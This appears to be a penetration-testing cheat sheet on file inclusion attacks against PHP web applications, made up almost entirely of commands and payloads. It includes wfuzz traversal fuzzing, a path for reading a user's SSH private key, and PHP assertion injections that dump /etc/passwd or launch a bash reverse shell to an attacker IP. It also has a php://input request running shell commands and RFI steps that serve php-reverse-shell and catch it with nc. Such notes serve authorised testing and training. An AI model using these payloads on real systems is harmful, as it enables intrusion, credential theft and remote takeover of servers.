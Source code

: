 ### :open_file_folder: Check file

lists

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/custom_wordlists/file_inclusion_linux.txt

Check files

```
wfuzz -c -w file_inclusion_linux.txt --hw 0 http://<target ip>/download.php?downloadurl=FUZZ
```

Next, we can test reading the ssh key

```
../../../../../home/<username>/.ssh/id_rsa
```

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```

PHP assertions

```shell
page=' and die(show_source('/etc/passwd')) or '
page=' and die(system('cat /etc/passwd')) or '
# url encode , page=<encode command string>, escape single quotes 
# page=' and die(system('echo \'/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1\' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh')) or '
page=' and die(system('echo '%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F<attacker ip>%2F<attacker port> 0>%261' > %2Ftmp%2Frevshell.sh %26%26 chmod 777 %2Ftmp%2Frevshell.sh %26%26 %2Fbin%2Fbash %2Ftmp%2Frevshell.sh')) or '%0A
```

Burp Suite

```
GET /site/index.php?page=php://input&cmd=id HTTP/1.1
Host: 192.168.0.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2vqr9cj4hp7d2uva04de1352ro
Upgrade-Insecure-Requests: 1
Content-Length: 41

<?php echo shell_exec($_GET['cmd']); ?>
```

RFI

- method1 

    attacker

    ```shell
    # modify attcker ip and port, e.g., 192.168.10.100 4444
    locate php-reverse-shell
    # start http server
    sudo python3 -m http.server 80
    # listen on port 4444
    sudo nc -nlvp 4444
    ```

    target

    ```shell
    # vulnerability page
    /test.php?url=http://<attcker ip>:<attacker port>/php-reverse-shell.php
    ```
